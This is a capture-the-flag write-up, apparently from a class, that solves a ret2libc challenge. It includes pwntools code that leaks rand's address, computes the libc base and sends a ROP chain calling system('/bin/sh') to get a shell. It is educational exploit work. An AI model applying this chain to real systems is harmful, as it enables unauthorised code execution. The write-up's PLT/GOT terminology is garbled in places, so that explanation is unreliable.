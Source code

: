# Ret2libc:Solution

The binary is compiled with NX and Partial RELRO
```
 pwn checksec chal.bin                                                      
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)              
[*] '/root/workspace/vuln/ret2libc/chal/chal.bin'                              
    Arch:     amd64-64-little                                                  
    RELRO:    Partial RELRO                                                    
    Stack:    No canary found                                                  
    NX:       NX enabled                                                       
    PIE:      No PIE (0x400000) 
```
    
and is dynamically linked to GLIBC.
```
ldd chal.bin
    linux-vdso.so.1 (0x00007fff24bd2000)
    libc.so.6 => /lib64/libc.so.6 (0x00007f4778600000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f477896e000)
```

We can exploit the read() function.
```
ssize_t vuln()
{
    printf("--------------------------------…");
    printf("Random Value: %p\n", rand);
    printf("--------------------------------…");
    printf("I'm standing on the edge\n");
    printf("Feeling like I'm just a pawn\n");
    printf(" - \x1b[0;31mRand\x1b[0mon - Ima…");
    printf("--------------------------------…");
    void var_10;
    return read(0, &var_10, 0x1337);
 }
 ```
 
The above function gives us the location of a miscalled function rand. This leak allows us to determine the libc version and calculate the libc base address. 

We save the location of rand in the plt that is recieved from the command line. Then we rand in the got which is automatically returned as an int. Using those two values we can calculate the libc base address. 

```
io.recvuntil(b'Random Value: ')
plt_val = int(io.recvline(), 16)
got_val = libc.sym['rand'] # sym can find the value by name in the got, automatically an int
libc_base  = plt_val - got_val
```

Add 16 bytes of padding and align the stack. Find a pop rdi gadget to clear out rdi and add a bin/sh into it. Then call system and send the chain to get a shell.
```
chain = cyclic(16)
chain += p64(libc_base + r.find_gadget(['ret'])[0]) # 8 bytes to align stack
chain += p64(libc_base + r.find_gadget(['pop rdi','ret'])[0]) # returns list of gadgets [0] takes first one
chain += p64(libc_base + next(libc.search(b'/bin/sh\x00')))
chain += p64(libc_base + libc.sym['system'])
io.sendline(chain)
io.interactive()
```

Send the chain and get the flag!
```
flag{1ts_A_RAND0m_w0rlD}
```

Resources:
Class slides
Demo solve script
Louie
Alex
